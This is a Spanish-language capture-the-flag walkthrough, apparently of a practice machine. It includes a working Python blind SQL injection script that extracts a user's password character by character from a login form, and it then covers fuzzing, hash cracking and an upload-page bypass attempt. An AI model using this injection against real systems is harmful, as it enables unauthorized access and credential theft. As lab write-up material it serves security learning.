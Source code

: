 ```python
	
	p2 = log.progress("PAYLOAD")
	p3 = log.progress("PASSWORD")
	
	for position in range(1, 40):
		for character in all_characters:
			
			p1.status("Probando con el caracter %s en la posición [%s]" % (character, position))
			
			post_data = {
				'username': """admin' and substring(password,%s,1)='%s'-- -""" % (position, character),
				'password': 'admin'
			}
	
			p2.status(post_data['username'])
			
			r = requests.post(main_url, data=post_data)
		
			if "Try again.." not in r.text:
				password += character
				p3.status(password)
				break
		
if __name__ == '__main__':
	makeSQLi()

```

> Obtenemos un hash de admin

Probamos a crackearlo, pero no sabemos que tipo de hash es, llama la atención que empieza por "0e" y el resto son números.

## http
Fuzzeamos el servicio con [wfuzz](/wfuzz/) o [gobuster](/gobuster/). Fuzzeamos archivos con extensión php y txt.

> cyberlaw.txt

En el archivo vemos que hay otro usuario llamado "cris".
Vamos a tratar de extraer la contraseña con el script anterior.

> Obtenemos hash de cris

Este hash parece más md5. Probamos en **crackstation** con rainbow tables  y conseguimos la contraseña.

> USER: chris
> PASS: juggling

En la nota tambien vimos que el usuario chris consiguió entrar como admin en la página. Intentamos entrar el "upload.php". Pero nos aplica un redirect al "index.php". Con **burpsuite** tratamos de forzar el "200 OK" aunque no conseguimos nada.
